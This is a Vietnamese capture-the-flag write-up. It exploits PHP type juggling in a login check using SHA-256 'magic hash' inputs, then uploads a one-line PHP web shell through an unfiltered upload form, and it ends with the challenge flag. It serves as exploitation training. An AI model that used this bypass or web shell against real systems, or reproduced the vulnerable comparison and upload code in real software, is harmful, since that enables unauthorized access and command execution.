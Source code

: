 Quan sát source code và chức năng đăng nhập

```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
}
```

Chú ý sẽ thấy có 1 phần như sau

```php
if($pas == "0")
```

Đây là lỗi **php juggling** khi php cố gắng ép kiểu dữ liệu.

Nếu như **$pas** sau khi được sha256 có dạng `0exxxxxxx....` thì ký tự đầu tiên của **$pas** sẽ được đem so sánh với `"0"` là bằng nhau

Tôi đã tìm được đầu vào thỏa mãn:
| Hash | Number/String | Magic Hash |
| --- | --- | --- |
| SHA-256 | 34250003024812 | 0e46289032038065916139621039085883773413820991920706299695051332 |
| SHA-256 | TyNOQHUS | 0e66298694359207596086558843543959518835691168370379069085300385 |

Sau khi vào được trang /upload.php

```php
if(isset($_FILES['fileData'])){
    if($_FILES['fileData']['size'] > 1048576){
        $errors='File size must be excately 1 MB';
    }

    if(empty($errors)==true){
    $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
    move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
    }else{
        echo $errors;
    }
}
```

Nhận thấy file upload lên không được filter extension, upload file php với payload sau:

```php
<?php system($_GET['cmd'])>;?>
```

![image](https://github.com/lucthienphong1120/CookieArena-CTF/assets/90561566/fed2b00d-10d2-4c38-a6e0-587c71f76f3b)

```CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_fdc8987c7c633ce8f9f5f2ae4599a9c8}```
